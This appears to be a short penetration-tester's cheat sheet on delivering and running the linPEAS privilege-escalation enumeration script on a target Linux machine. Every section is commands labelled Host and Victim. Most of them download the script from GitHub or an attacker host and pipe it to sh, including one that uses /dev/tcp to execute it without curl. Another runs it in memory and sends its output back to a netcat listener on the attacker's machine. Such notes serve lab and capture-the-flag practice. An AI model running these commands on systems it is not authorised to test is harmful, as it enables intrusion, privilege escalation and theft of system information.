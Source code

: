 ### Download
https://github.com/carlospolop/PEASS-ng/releases/tag/20220515
```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220515/linpeas.sh
```
Host on Python web and download from target
[[Web Hosting#Python HTTP]]

### From github
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### Local network
```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

### Without curl
```
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```

### Excute from memory and send output back to the host
```
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

### Output to file
```
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

### Use a linpeas binary
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```